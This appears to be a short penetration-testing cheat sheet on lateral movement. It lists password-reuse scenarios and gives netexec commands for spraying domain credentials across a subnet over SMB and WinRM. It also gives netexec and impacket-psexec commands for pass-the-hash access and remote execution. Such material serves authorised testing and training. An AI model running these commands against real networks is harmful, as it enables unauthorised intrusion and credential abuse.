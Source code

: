 
## Password Reuse Patterns

### Common Reuse Scenarios

**Database password found in web config:**
```
DbPassYYYY! often works as:
- SSH password (same username or root)
- sudo password (if you have shell as that user)
- Other database passwords
- Windows local admin password
```

**User password found anywhere:**
```
Test as:
- Same user on other systems
- Root password (people reuse!)
- Admin password (Windows)
- Service account password
```

**SSH key found:**
```
Test on:
- All SSH services in network
- Same username on all Linux boxes
- Root user (sometimes same key)
```

---

## Active Directory Lateral Movement

### With Domain Credentials

**Find where you have access:**
```bash
# SMB access across domain
netexec smb 10.10.10.0/24 -u DOMAIN_USER -p 'PASSWORD'

# Local admin access
netexec smb 10.10.10.0/24 -u DOMAIN_USER -p 'PASSWORD' | grep "Pwn3d"

# WinRM access
netexec winrm 10.10.10.0/24 -u DOMAIN_USER -p 'PASSWORD'
```

### Pass-the-Hash

**With dumped NTLM hashes:**
```bash
# Test hash on all systems
netexec smb 10.10.10.0/24 -u Administrator -H NTLM_HASH

# Execute on systems where you have admin
impacket-psexec -hashes :NTLM_HASH Administrator@TARGET
```
